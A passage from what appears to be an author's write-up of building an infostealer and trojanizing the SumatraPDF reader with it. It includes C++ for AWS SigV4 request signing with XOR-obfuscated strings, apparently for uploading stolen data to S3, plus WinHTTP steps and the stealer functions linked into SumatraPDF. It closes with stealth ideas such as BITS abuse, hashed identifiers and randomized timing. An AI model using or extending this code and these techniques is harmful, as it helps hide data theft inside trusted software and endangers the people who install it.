        perpKey.data(), HMAC_HASH_LEN,
        (const uint8_t*)(XOR_DEC_STR<134>(S3_BUCKET_REGION).c_str()), S3_BUCKET_REGION.size()-1,
        perpKey
    );

    doHMACSHA256(
        perpKey.data(), HMAC_HASH_LEN,
        (const uint8_t*)(XOR_DEC_STR<120>(STR_S3).c_str()), STR_S3.size()-1,
        perpKey
    );

    doHMACSHA256(
        perpKey.data(), HMAC_HASH_LEN,
        (const uint8_t*)(XOR_DEC_STR<134>(STR_AWS4_REQUEST).c_str()), STR_AWS4_REQUEST.size()-1,
        perpKey
    );

    return perpKey;
}
```

##### Calculating the Signature
This is the easiest part yet. You HMAC-SHA256 the string to sign using the key just derived:

```c++
std::string SIGv4Signer::generateSignature(const std::string& stringToSign)
{
    HMAC256_t key = deriveSigningKey();

    HMAC256_t output{};
    
    doHMACSHA256(
        key.data(), HMAC_HASH_LEN,
        (const uint8_t*)stringToSign.c_str(), stringToSign.length(),
        output
    );
    std::string signature{};
    signature.reserve(HMAC_HASH_LEN * 2);

    for (uint8_t c : output)
    {
        uint8_t hi = (c & 0xF0) >> 4;
        uint8_t lo = (c & 0x0F);

        signature += getHexChar(hi);
        signature += getHexChar(lo);
    }

    return signature;
}
```

Once signed, this signed string need to be added to a new header called "Authorization." The format of this header is `Authorization: AWS4-HMAC-SHA256 Credential=<CredentialScope>, SignedHeaders=<SignedHeaders>, Signature=<SignedStringToSign>`

Now all that is left is adding the headers to the actual HTTP request.


#### WinHTTP
I debated using something like cURL or Boost as the HTTP library, but I decided WinHTTP would be simpler and be much less bloated. This is primarily because both cURL and Boost require OpenSSL for encryption, which is gigantic and chock full of text symbols. In hind site, this probably could have been played off as encryption support for the PDF viewer.

The steps for using WinHTTP are as follows:
1. Open a WinHTTP Session (`WinHttpOpen`)
2. Create a Connection (`WinHttpConnect`)
3. Create a request (`WinHttpOpenRequest`)
4. Optionally add headers (`WinHttpAddRequestHeaders`)
5. Send the Request (`WinhttpSendRequest`)
6. Try to receive a response (`WinHttpReceiveResponse`)

And if you are tring to extract data you have to first see if there is any data available (`WinHttpQueryDataAvailable`), then read it (`WinHttpReadData`);

Step 4 is where the SigV4 information will be added.

#### The End Results




### Trojanization {id=trojanization}
How this software is even able to compile is some type of miracle given to it's authors by some God-like creature. After cloning the repository, everything *seemed* normal, however, after adding some of my own code, I was getting hundreds of compiler errors about multiply defined symbols. I came to realize that this project had zero header guards whatsoever. Not even a `#pragma once`. I eventually had to add my own header guards around the code I modified. Furthermore, there is a noticeable lack of documentation. If I wanted to know how a function worked, I would have to look at its implementation (which usually is commented...).

The first step was writing and testing my malware. When I was finished, I compiled it as a static library. I have three functions used by SumatraPDF:
1. `sumatra_stealer_run` - this loads the API and creates the thread
2. `sumatra_stealer_wait` - this is used if the application has exited before the malware has completed
3. `sumatra_stealer_is_running` - this makes sure the malware won't spawn two threads by accident

I then imported them into SumatraPDF and added my own header guards:
```c++
#ifndef WHY_NO_HEADER_GUARDS
#define WHY_NO_HEADER_GUARDS
extern HANDLE sumatra_stealer_run();
extern void sumatra_stealer_wait();
extern bool sumatra_stealer_is_running();   
#endif // WHY_NO_HEADER_GUARDS??
```

### Closing Thoughts {id=closing}

Overall, this was a very successful project. Originally, I had planned on separating the Trojan from the Infostealer. I found a way to abuse the Background Intelligence Transfer Service (BITS) to copy files without actually touching them. I planned on using this to drop the stealer into the Startup folder, but decided it would be more stealthy to integrate it directly into the trojan.

Here are some potential improvements I could have made:
1. Choosing a better software to trojanize...
2. Use Namespace/Class hashing for WMI, this *could* have helped with stealth, but I'm not 100% sure.
3. Modifying hashed input. e.g. "Win32" could become "Xjo43"
4. Randomize the time waited between each task


